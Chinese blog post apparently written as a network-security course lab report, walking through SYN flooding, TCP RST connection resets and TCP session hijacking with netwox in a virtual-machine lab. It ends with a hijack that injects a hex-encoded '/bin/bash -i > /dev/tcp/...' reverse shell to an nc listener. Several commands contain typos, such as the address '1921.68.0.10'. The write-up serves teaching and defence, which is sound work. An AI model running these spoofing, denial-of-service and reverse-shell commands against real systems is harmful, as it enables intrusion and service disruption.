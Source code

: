 ```yaml
---
layout:     post
title:      网络与计算机安全之TCP/IP 攻击
subtitle:   网络安全
date:       2019-12-16
author:     VK
catalog: true
tags:
    - linux
---
```


### 网络与计算机安全课程实验之TCP/IP 攻击

#### 实验原理与目的

　　TCP/IP 协议从开始设计时候并没有考虑到现在网络上如此多的威胁，由此导致了许多形形色色的攻击方法。本次实验涉及了 TCP/IP 攻击的三种基本类型，（1）SYN 洪泛攻击，（2）TCP RST 攻击，（3）TCP 会话劫持攻击。希望通过本次实验了解 TCP/IP 攻击的原理，通过实际操作掌握基本的攻击方法，学会如何防范此类攻击。

#### 实验配置

　　基本配置与上一个实验：Local DNS Attack Lab 基本一致。按照实验指导手册，配置 3 台虚拟机，1 台作为 DNS 服务器，1 台作为用户机，另 1 台作为攻击者，3 台机器通过设置 NAT 网络来实现网络互访。

[![12-1](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-1.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-1.png)

##### 启用 telnet 服务器

　　对于本实验，实验要求启用 ftp 和 telnet 服务器，但是其实在后续的实验中只用到了 telnet。为了安全起见， Ubuntu 系统中安装的这些服务通常是默认禁用的，所以需要以 root 用户身份运行以下命令来启用：

```
$ sudo service vsftpd start
$ sudo service openbsd-inetd start
```

#### 实验过程

##### SYN 洪泛攻击

　　SYN 洪泛是 DoS 攻击的一种形式，攻击者向受害者的 TCP 端口发送多个 SYN 请求，但是攻击者无意完成三次握手过程。攻击者要么使用欺骗性的 IP 地址，要么不要继续这个过程。通过这种攻击，攻击者可以淹没用于半开连接的受害者队列，即完成 SYN，SYN-ACK 但尚未得到最终 ACK 的连接。当这个队列已满时，受害者不能再进行连接。

　　队列的大小有一个系统范围的设置。在 Linux 中，我们可以使用以下命令检查设置：

```
$ sysctl -q net.ipv4.tcp_max_syn_backlog
```

　　我们可以使用命令 “netstat -na” 来检查队列的使用情况，即与监听端口关联的半开连接的数量。这种连接的状态是 SYN-RECV。如果三次握手完成，连接的状态将建立。

[![12-2](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-2.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-2.png)

　　Netwox 编号为 76 的工具提供了 SYN 洪泛攻击的基本功能，输入 “netwox 76 –help” 可以获取如下帮助信息。

[![12-3](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-3.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-3.png)

　　首先在用户机上使用 telnet 192.168.0.10 命令测试 telnet 连接是否可用，验证可以成功登陆后即退出，然后攻击者开始使用如下命令发起攻击：

```
$ sudo netwox 76 --dst-ip 192.168.0.10 --dst-port 23
```

　　然后，用户机再次通过 telnet 连接到服务器，此时发现依然可以连接，按照实验指导手册所说，我们需要检查机器是否已经开启 SYN cookie 机制，SYN cookie 是抵御 SYN 洪泛攻击的防御机制。我们可以使用 sysctl 命令查看、打开和关闭 SYN cookie 机制，使用如下命令查看 SYN cookie 机制的设置情况：

```
$ sysctl -a | grep cookie
```

　　可以看到默认情况下， SYN cookie 机制是启用的，所以先将其关闭后再尝试攻击，使用如下命令将其关闭：

```
$ sysctl -w net.ipv4.tcp_syncookies=0
```

[![12-4](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-4.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-4.png)

　　此时，再次发起攻击，并尝试再次使用 telnet 连接到服务器，发现已经无法连接到服务器了，如下：

[![12-5](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-5.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-5.png)

　　当然，你也可以通过 wireshark 抓包来查看攻击者发送的数据包。实验完成后，再使用如下命令将 SYN cookie 机制打开，以防止 SYN 洪泛攻击。

```
$ sysctl -w net.ipv4.tcp_syncookies=1
```

##### TCP RST 攻击 telnet 和 ssh 连接

　　RST 表示复位，用来异常的关闭连接，在 TCP 的设计中它是不可或缺的。发送 RST 包关闭连接时，不必等缓冲区的包都发出去，直接就丢弃缓存区的包发送 RST 包。而接收端收到 RST 包后，也不必发送 ACK 包来确认。TCP RST 攻击可以终止两个受害者之间建立的 TCP 连接。例如，如果两个用户 A 和 B 之间建立了 Telnet 连接（TCP），则攻击者可以将 A 到 B 的 RST 数据包进行欺骗，从而破坏现有的连接。为了在这次攻击中取得成功，攻击者需要正确构造 TCP RST 数据包。Netwox 编号为78的工具提供了 RST 攻击的基本功能，输入 “netwox 78 –help” 可以获取如下帮助信息。

[![12-6](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-6.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-6.png)

　　在用户机上使用 telnet 命令连接到服务器，登录成功以后，攻击者发起 RST 攻击，通过 netwox 78 号工具伪造 RST 包发送给服务器，命令如下：

```
$ netwox 78 –i 1921.68.0.10
```

　　命令运行后悔使得用户机与服务器的 telnet 连接中断，攻击效果如下图：

[![12-7](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-7.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-7.png)

　　在用户机上使用 ssh 命令连接到服务器，登录成功以后，攻击者发起 RST 攻击，通过 netwox 78 号工具伪造 RST 包发送给服务器，使得用户机与服务器的 SSH 连接中断，实验效果如下图：

[![12-8](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-8.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-8.png)

##### TCP RST 攻击视频流应用程序

　　实验原理与任务2相同。TCP RST 攻击终会止两个受害者之间建立的 TCP 连接。在用户机上使用浏览器访问优酷的视频，攻击者向用户发起 RST 攻击，再刷新浏览器页面时即显示，为了在这次攻击中取得成功，攻击者需要正确构造 TCP RST 数据包。
　　Netwox 编号为 78 的工具提供了 RST 攻击的基本功能攻击命令，通过 netwox 78 号工具伪造 RST 包发送给服务器，命令如下：

```
$ netwox 78 –i 1921.68.0.100
```

　　攻击效果如下图，正常观看视频，发起攻击再刷新页面后TCP连接断开，页面崩溃。

[![12-9](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-9.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-9.png)

[![12-10](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-10.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-10.png)

##### TCP 会话劫持

　　开启 wireshark，并设置过滤器 –filter telnet，然后开始监控局域网内的流量。用户开始使用 telnet 连接到服务器，分析 telnet 连接建立时发送的数据包，然后根据其特征伪造相应的数据包来劫持会话。

[![12-11](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-11.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-11.png)

　　Netwox 编号为 40 的工具提供了 SYN 洪泛攻击的基本功能，输入 “netwox 40 –help” 可以获取如下帮助信息。

[![12-12](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-12.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-12.png)

　　使用 netwox 的 40 号工具，根据抓包数据的 TCP 源端口目的端口填写 tcp-src 和 tcp-dst，根据 IP 包的源地址目的地址填写 ip4-src 和 ip4-dst，根据用户机发送给服务器的最后一个数据包的 Next sequence nuber 字段填写 tcp-seqnum，根据服务器发送给用户机的最后一个数据包的 Acknowledgement number 字段填写 tcp-acknum，根据 IP 包的 TTL 字段填写 ip4-ttl，根据 IP 包的协议字段填写 ip4-protocol ，然后根据需要填写 tcp-data 字段。加入我们发送ls命令到服务器来查看该目录下有什么文件，将 ls 转换成 16 进制并加上 \r 的 16 进制数，生成我们的命令如下：

```
$ sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.0.100 --ip4-dst 192.168.0.10 --tcp-src 59714 --tcp-dst 23 --tcp-seqnum 3089814629 --tcp-acknum 1471714290 --tcp-ack --tcp-psh --tcp-window 128 --tcp-data "6c730d00"
```

　　通过 wireshark 抓包可以看到命令已经发出，效果如下：

[![12-13](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-13.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-13.png)

　　紧接着，服务器会将该命令的执行结果发送出来，我们同样可以通过抓包查看，如下所示，可以看到 ls 命令的执行结果，即显示该目录下所有文件：

[![12-14](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-14.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-14.png)

##### 使用 TCP 会话劫持创建反向 Shell

　　设置后门的一个典型方法是从受害者机器运行一个反向外壳，以使外壳访问受害者机器。反向shell是在远程机器上运行的一个 shell 进程，连接到攻击者的机器。攻击者一旦遇到危险，就可以方便地访问远程机器。
　　netcat 程序允许我们指定一个端口号，并可以监听该端口上的连接。我们可以在攻击者机器上，使用如下命令 netcat 监听端口 9090 上的连接：

```
$ nc –l 9090 -v
```

　　“/bin/bash -i> /dev/tcp/10.0.2.4/9090 0<&1 2>&1” 会启动一个 bash shell，其输入来自 tcp 连接，其标准错误输出将被重定向到相同的 tcp 连接。将该命令转换成 16 进制，并在最后添加回车的 16 进制代码，即 0x0d00。

　　然后通过上面 3.4 的会话劫持将这个命令发送到服务器，命令如下：

```
$ sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.0.100 --ip4-dst 192.168.0.10 --tcp-src 53700 --tcp-dst 23 --tcp-seqnum 3862965514 --tcp-acknum 3719047389 --tcp-window 128 --tcp-urgptr 0 --tcp-data "2F62696E2F62617368202D69203E202F6465762F7463702F3139322E3136382E302E3230302F3930393020303C263120323E26310d00"
```

　　通过 wireshark 抓包可以看到数据包已经构造成功，并且发送到服务器。

[![12-15](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-15.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-15.png)

　　由于攻击者一直在监听 9090 端口，服务器一旦接收到这个命令就会向攻击者建立连接，从而拿到服务器的 shell，如下图所示 netstat 的输出显示已建立的连接。

[![12-16](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-16.png)](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-16.png)